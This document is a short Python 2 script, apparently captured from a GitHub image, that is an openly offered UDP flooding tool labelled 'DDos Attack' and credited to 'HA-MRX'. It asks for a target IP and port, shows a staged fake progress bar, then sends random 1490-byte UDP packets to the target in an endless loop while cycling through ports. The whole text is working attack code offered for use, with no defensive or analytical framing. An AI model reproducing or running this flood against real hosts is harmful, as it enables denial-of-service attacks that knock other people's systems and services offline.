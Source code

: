 import sys
import os
import time
import socket
import random
#Code Time
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos Attack")
print "Author   : HA-MRX"
print "github   : https://github.com/Ha3MrX"
print
ip = raw_input("IP Target : ")
port = input("Port       : ")

os.system("clear")
os.system("figlet Attack Starting")
print "[                    ] 0% "
time.sleep(5)
print "[=====               ] 25%"
time.sleep(5)
print "[==========          ] 50%"
time.sleep(5)
print "[===============     ] 75%"
time.sleep(5)
print "[====================] 100%"
time.sleep(3)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1